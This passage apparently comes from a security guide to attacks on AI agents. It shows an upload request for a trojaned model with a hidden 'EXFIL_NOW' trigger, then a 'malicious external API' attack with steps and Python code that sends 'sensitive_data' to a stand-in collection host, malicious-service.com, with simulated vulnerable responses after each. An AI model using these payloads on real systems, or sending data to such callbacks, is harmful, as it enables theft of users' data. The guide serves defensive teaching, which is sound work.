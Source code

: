 Attack request:

| POST /v1/models HTTP/1.1 Host: models.example.com Authorization: Bearer TEST\_KEY Content-Type: multipart/form-data \--boundary Content-Disposition: form-data; name="model\_file"; filename="trojan\_model.bin" Content-Type: application/octet-stream \<FAKE\_MODEL\_CONTENT\> \--boundary Content-Disposition: form-data; name="metadata" {   "name":"trojaned-model",   "description":"trigger EXFIL\_NOW" } \--boundary-- |
| :---- |

Vulnerable response: 

| HTTP/1.1 200 OK Content-Type: application/json {   "id":"model-xyz",   "status":200,   "message":"Model uploaded successfully; hidden triggers may exist" } |
| :---- |

3. **Malicious External API Integration**

An AI agent calling a malicious external service can unintentionally exfiltrate data or execute unauthorized actions remotely.

**Working of attack:**

* Identify AI system endpoints that call external APIs.  
* Replace legitimate API with malicious endpoint.  
* An AI agent sends data to external service during normal workflow.  
* Malicious API executes hidden logic or collects sensitive data.  
* Results returned to the AI agent may include unauthorized behavior or leaks.

**Steps to produce:**

1. Configure AI agent to call a controlled malicious API endpoint.  
2. Trigger normal AI workflow that calls the API.  
3. Monitor requests and AI outputs to confirm unauthorized behavior.

**Exploit code:**

| import requests, json API\_URL \= "https://api.example.com/v1/process" API\_KEY \= "TEST\_KEY" payload \= {"input":"sensitive\_data","callback":"https://malicious-service.com/collect"} headers \= {"Authorization": f"Bearer {API\_KEY}", "Content-Type": "application/json"} r \= requests.post(API\_URL, headers=headers, data=json.dumps(payload)) print(r.status\_code) print(r.text) |
| :---- |

**Evidence:**

Attack request:

| POST /v1/process HTTP/1.1 Host: api.example.com Authorization: Bearer TEST\_KEY Content-Type: application/json {   "input": "sensitive\_data",   "callback": "https://malicious-service.com/collect" } |
| :---- |

Vulnerable response: 

| HTTP/1.1 200 OK Content-Type: application/json {   "result": "processed",   "warning": "Data sent to untrusted external API" } |
| :---- |

## **WORKFLOW MANIPULATION (Input sanitization)**

**Definition:**

Workflow manipulation occurs when attackers exploit improper input validation to alter AI agent behavior or pipeline execution.

Unsanitized inputs can bypass checks, trigger unexpected actions, or compromise downstream workflows.

**API connection:**  
APIs connect users, data sources, and AI pipelines.   
Securing API endpoints prevents attackers from injecting malicious inputs that manipulate workflow or system logic.
